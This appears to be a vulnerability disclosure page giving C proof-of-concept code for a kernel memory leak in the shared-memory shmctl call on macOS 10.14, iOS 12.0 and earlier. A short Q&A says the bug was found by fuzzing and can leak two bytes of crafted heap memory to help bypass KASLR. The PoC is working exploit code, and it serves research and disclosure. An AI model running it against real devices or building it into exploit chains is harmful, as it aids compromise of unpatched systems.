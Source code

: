 ## PoC Code

```C
#include <iostream>
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/shm.h>

int print_test()
{
    struct shmid_ds buffer;
    memset(&buffer, 0, sizeof(buffer));
    
    int id = shmget(0, 0x10, 0x777);
    printf("id: %d\n", id);
    
    int iret = shmctl(id, 2, &buffer);
    printf("iret: %d\n", iret);
    
    uint8_t *pp = (uint8_t*)&buffer;
    if(iret == 0) {
        for (int i = 0; i < sizeof(buffer); i++) {
            printf("%02x", pp[i]);
            if (i % 16 == 15)
                printf("\n");
            else
                printf(" ");
        }
    }
    printf("\n");
    
    return iret;
}

int main(int argc, const char * argv[]) {
    // insert code here...
    print_test();
    
    
    return 0;
}
```

## Q & A
### How did you find this vulnerability?
by fuzzing.

### Can you identify exploitability?
This is a memory leak vulnerability. It can leak 2 bytes-long heap memory. Attacker can craft memory and use this vulnerability to leak 2 bytes of the crafted memory to help bypass kaslr.

### Can you identify root cause?
Yes, see the root cause analysis.

### Vulnerable software and hardware
macOS 10.14 and all before  
iOS 12.0 and all before

  [Back Home]({{site.url}}{{site.baseurl}})